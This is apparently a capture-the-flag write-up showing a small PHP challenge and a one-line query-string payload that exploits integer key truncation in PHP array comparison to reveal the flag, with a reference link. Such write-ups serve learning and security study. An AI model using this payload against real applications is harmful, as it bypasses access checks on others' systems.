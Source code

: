# Challenge 
```php 
<?php

$flag ="XXXX"; 

if(empty($_GET['user'])) die(show_source(__FILE__));

$user = ['admin', 'xxoo'];

if($_GET['user'] === $user && $_GET['user'][0] != 'admin'){
    echo $flag;
}
?>
```

# Solution

payload

```
?user[1]=xxoo&user[4294967296]=admin
```



# Refference
+ [PHP 不同数组之间比较由于整数键截断导致结果相同 ](http://blog.evalbug.com/2015/11/10/different_arrays_compare_indentical_due_to_integer_key_truncation/)